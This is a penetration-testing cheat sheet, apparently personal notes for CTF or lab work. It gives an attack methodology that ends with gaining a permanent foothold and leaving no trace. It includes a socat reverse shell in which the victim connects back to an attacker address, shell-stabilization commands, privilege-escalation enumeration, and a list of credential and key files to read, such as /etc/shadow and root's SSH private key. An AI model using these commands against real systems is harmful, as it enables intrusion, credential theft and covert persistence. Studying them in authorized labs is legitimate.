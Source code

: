 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell

atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands Linux

List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Useful enumeration comands Linux

```
net users
```

```
systeminfo | findstr /B /C: "OS Name"/C: "OS Version"
```

```
wmic service list
```

## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
Execute command/use file as another user
```
sudo -u "username" "path/to/command" "path/to/file"
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
Spawn a shell and stabilize
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

If the shell dies there will be no output, type

```
reset
```

## Other Stuff

### Dirbuster

List of common file extentions
```
php, pl, sh, asp, html, json, py, cfm, aspx, rb, cgi
```
## Useful Places to look

Location	Description

/etc/issue
	contains a message or system identification to be printed before the login prompt.

/etc/profile
	

controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived

/proc/version
	specifies the version of the Linux kernel

/etc/passwd
	has all registered user that has access to a system

/etc/shadow
	contains information about the system's users' passwords

/root/.bash_history
	

contains the history commands for root user

/var/log/dmessage
	contains global system messages, including the messages that are logged during system startup

/var/mail/root
	

all emails for root user

/root/.ssh/id_rsa
	Private SSH keys for a root or any known valid user on the server

/var/log/apache2/access.log
	

the accessed requests for Apache  webserver

C:\boot.ini
	contains the boot options for computers with BIOS firmware
